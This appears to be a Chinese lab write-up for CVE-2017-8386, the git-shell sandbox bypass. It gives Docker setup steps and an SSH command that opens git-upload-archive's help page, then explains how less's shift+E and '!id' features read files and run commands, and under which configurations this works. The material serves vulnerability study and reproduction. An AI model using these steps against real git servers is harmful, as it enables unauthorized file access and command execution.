




# GIT-SHELL 沙盒绕过导致命令执行漏洞（CVE-2017-8386）

Git shell 是一个用于 SSH 账户的登录 shell，提供受限的 Git 访问。在 git 2.4.12、2.5.6、2.6.7、2.7.5、2.8.5、2.9.4、2.10.3、2.11.2、2.12.3 版本之前，可能允许远程认证用户绕过 git-shell 沙盒执行任意命令。

参考链接：

 - https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/
 - https://www.leavesongs.com/PENETRATION/git-shell-cve-2017-8386.html

## 环境搭建

编译及运行测试环境：

```
docker compose up -d
```

为了不和 docker 母机的 ssh 端口冲突，我将容器的 ssh 端口设置成 3322。本目录下我生成了一个 `id_rsa`，这是 ssh 的私钥，连接的时候请指定之。

在连接以前，需要先设置私钥的权限为 0600：`chmod 0600 id_rsa`，否则连接可能失败。

正常连接其 ssh 服务 `ssh -p 3322 -i id_rsa git@127.0.0.1`，会被 git-shell 给拦截，返回错误 `fatal: unrecognized command ''`，并且连接被关闭。

## 漏洞复现

使用--help 技巧，连接目标并进入帮助页面：

```
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "git-upload-archive '--help'"
```

按 `shift`+e，读取任意文件：



回到帮助页面，输入 `!id` 执行命令：



(为什么是 www-data 用户？因为 git 用户和 www-data 用户编号都是 33，所以其实他们是一个用户)

## 原理

### 基于 ssh 协议的 git 拉取流程

git-shell 是 git 服务中重要的组成部分，众所周知，git 服务支持 ssh、git、https 三种协议来传递项目，其中 ssh 是最安全，也最方便的一种方式。

我们随便打开 Github 上一个项目，找到 `Clone with SSH` 里列出的地址：git@github.com:phith0n/vulhub.git，其实这个 url 就是告诉 git，ssh 用户名是 git，地址是 github.com（默认端口是 22），该项目位于 `phith0n/vulhub.git` 这个目录下；然后 git 就通过 ssh 协议连接上 github.com，并将对应目录下的项目拉取下来。

所以，基于 ssh 协议的 git clone 等操作，本质上就是通过 ssh 协议连接上 git 服务器，并将指定目录拉取下来的过程。

那么，既然这个过程是个 ssh 交互的过程，那么我直接执行 `ssh git@github.com` 是不是就可以登录 github 服务器了呢？显然是不行的，你可以试试：



说"不行"其实也有偏差，实际上我确实是连接上了其 ssh 服务，并验证身份通过了，但他给了我一段提示信息"Hi phith0n! You've successfully authenticated, but GitHub does not provide shell access."，就把我的连接关了。

所以，正常来说，基于 ssh 的 git 拉取过程对于 git 服务器是安全的。

关于如何搭建一个 git 服务器，可以参考 [这篇文章](http://www.liaoxuefeng.com/wiki/0013739516305929606dd18361248578c67b8067c8c017b000/00137583770360579bc4b458f044ce7afed3df579123eca000)

### 如何禁止 git 用户执行系统 shell

那么，github 这类 git 服务商是怎么实现上述"安全"通信的流程的呢？

让用户可以通过 ssh 认证身份，但又不给用户 shell，这个过程有两种方法实现：

1. 创建系统用户 git 的时候将其 shell 设置成 git-shell
2. 在 authorized_keys 文件每个 ssh-key 的前面设置 command，覆盖或劫持重写原本的命令

第一种方法比较直观，就是创建用户的时候不给其正常的 bash 或 sh 的 shell，而是给它一个 git-shell。git-shell 是一个沙盒环境，在 git-shell 下，只允许执行沙盒内包含的命令。

第二种方法不仅在 git 服务器上使用，很多 Linux 发行版也会用到。比如 aws，默认安装后是不允许 root 登录的，实现方法就是在/root/.ssh/authorized_keys 中设置 `command="echo 'Please login as the user \"ec2-user\" rather than the user \"root\".';echo;sleep 10"`。这句话相当于覆盖了原本执行的 shell，变成了 echo 一段文字。

当然，第二种方法内也可以用 git-shell，比如在添加 git 用户的时候赋予其正常的 `/bin/bash`，但在 authorized_keys 中设置 `command="git-shell -c \"$SSH_ORIGINAL_COMMAND\""`，实际上还是使用了 git-shell。

### git-shell 沙盒绕过漏洞（CVE-2017-8386）

git-shell 是一个可以限制用户执行命令的 shell，如果我们在 git 用户家目录下创建一个新目录，叫 `git-shell-commands`，然后将你允许用户执行的命令放在这个目录下，这就创建好了一个沙盒。在 git-shell 中，只能执行 `/home/git/git-shell-commands` 目录下的命令。

如果系统是没有 `git-shell-commands` 目录，那么 git-shell 默认只允许执行如下三个命令：

- `git-receive-pack <argument>`
- `git-upload-pack <argument>`
- `git-upload-archive <argument>`

这就是白名单。

但 CVE-2017-8386 的作者发现，执行 `git-upload-archive --help`（或 `git-receive-pack --help`），将会进入一个交互式的 man 页面，man 又调用了 less 命令，最后是一个可以上下翻页的帮助文档。

本来这也没什么，但是，less 命令有一个特性，就是其支持一些交互式的方法。比如在 less 页面中，按 `shift`+e 可以打开 Examine 功能，通过这个功能可以读取任意文件；输入 `!id` 就可以执行 id 这个命令。

可以随便找台 linux 计算机试一下，执行 `less /etc/passwd` 来到 less 的页面，然后在英文输入法下输入 `!id`，就可以执行 id 命令：



所以，利用这个特性，我们就可以绕过 git-shell 的沙盒读取任意文件，或执行任意命令了！

我们可以先试试，在 Linux 下直接执行 `git-receive-pack --help`，再输入 `!id`，看到的效果和上图是类似的。

[evi1cg 大佬的博客](https://evi1cg.me/archives/CVE-2017-8386.html) 中有动图，看的更直观。

### 通过 ssh 进行利用

那么，如何远程利用这个漏洞？

我们前面试了，直接 `ssh git@gitserver` 只能拿到 git-shell（或返回一段提醒文字），我们就利用上一节里提到的沙盒绕过漏洞执行命令：

```
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "git-upload-archive '--help'"
```

进入帮助页面，然后按 shift+e 或 `!id` 即可。

### 一些限制

我前文说了，一般配置 git 用户，不让 ssh 拥有 shell，有两种方法：一是创建用户的时候设置其 shell 为 `/usr/bin/git-shell`，二是在 authorized_keys 中覆盖 command。

如果目标服务器使用了第一种方法，我们即使成功执行了 `git-upload-archive '--help'` 进入帮助页面，也不能执行命令。因为 `!id` 还是在 git-shell 下执行，git-shell 中没有 id 命令，所以依旧执行不成功。

但读取文件是一定可以的，因为读取文件不是通过命令读取的，所以不受 git-shell 沙盒的影响。

如果目标服务器是用第二种方法配置的 git-shell，比如我这里这个测试环境，我是在 `/etc/passwd` 文件设置 git 用户的 shell 是 bash，而在 authorized_keys 中覆盖 command，执行 git-shell。

这种情况下，如果我进入了帮助页面，输入 `!id` 是可以成功执行 id 命令的，因为此时 id 是在 bash 下执行的，而不是在 git-shell 下执行的，所以没有沙盒限制。

总的来说，这个漏洞至少能做到任意文件读取，有可能可以执行任意命令。
